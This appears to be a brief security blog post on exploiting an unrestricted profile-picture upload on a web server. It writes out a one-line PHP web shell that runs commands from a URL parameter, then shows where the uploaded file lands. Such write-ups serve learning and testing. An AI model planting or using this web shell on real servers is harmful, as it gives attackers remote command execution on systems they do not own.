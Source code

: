 ```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload within a profile picture section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

copy image address results in the following url being copied to our clipboard: http://www.nop.cat/admin/ftp/objects/XXXXXXXXXXXX.php



![url to execute](https://github.com/nopcat/nopcat.github.io/raw/master/images/url.png)
